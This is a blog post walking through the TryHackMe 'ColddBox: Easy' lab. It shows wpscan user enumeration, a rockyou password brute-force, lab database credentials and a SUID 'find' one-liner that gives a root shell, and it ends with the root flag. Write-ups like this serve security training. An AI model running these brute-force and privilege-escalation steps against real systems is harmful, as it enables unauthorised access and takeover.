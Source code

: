 ```yaml
---
layout: post
title:  "THM: ColddBox: Easy"
date:   2021-01-07 21:00:00 +1100
category: hacking
---
```


## Jacob the Boss
*An easy level machine with multiple ways to escalate privileges.*

This is [ColddBox](https://tryhackme.com/room/colddboxeasy) from THM. 

## Ports
HTTP on port 80 and SSH hiding away on port 4512. We won't need it anyway.

## HTTP
What's that - did someone say Wordpress?

``
root@kali:/opt/tryhackme/colddbox# wpscan -e --url http://10.10.0.137
``

Gets 3 users; let's run a password attack:

``
root@kali:/opt/tryhackme/colddbox# wpscan -U 'hugo,c0ldd,philip' -P /usr/share/wordlists/rockyou.txt --url http://10.10.0.137
``

{% highlight shell %}
[+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / 9876543210            
{% endhighlight %}

Bingo. From there, it's upload a plugin and get a shell.

## c0ldd
This is our user; we can find the database password:

{% highlight shell %}
[+] Searching Wordpress wp-config.php files
wp-config.php files found: /var/www/html/wp-config.phpdefine('DB_NAME', 'colddbox');
define('DB_USER', 'c0ldd');
define('DB_PASSWORD', 'cybersecurity');
define('DB_HOST', 'localhost');           
{% endhighlight %}

This is also the user password for c0ldd, so let's run *sudo -l*:

{% highlight shell %}
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
{% endhighlight %}

Wow, we do have a few methods we can practice if we want. But let's not; **find** has the SUID bit set as well:

{% highlight shell %}
c0ldd@ColddBox-Easy:~$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# cd /root
cd /root
# ls -lash
ls -lash
total 32K
4,0K drwx------  4 root root 4,0K sep 24 18:52 .
4,0K drwxr-xr-x 23 root root 4,0K sep 24 16:47 ..
4,0K -rw-------  1 root root   10 oct 19 18:53 .bash_history
   0 -rw-r--r--  1 root root    0 oct 14 13:28 .bashrc
4,0K drwx------  2 root root 4,0K sep 24 18:52 .cache
4,0K -rw-------  1 root root  220 sep 24 17:02 .mysql_history
4,0K drwxr-xr-x  2 root root 4,0K sep 24 16:54 .nano
4,0K -rw-r--r--  1 root root  148 ago 17  2015 .profile
4,0K -rw-r--r--  1 root root   49 sep 24 18:23 root.txt
# cat root.txt
cat root.txt
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
{% endhighlight %}

Okey dokey. I've also got user on HTB Ready; I haven't been on HTB for quite a while before now. I'm not allowed to write it up anyway.
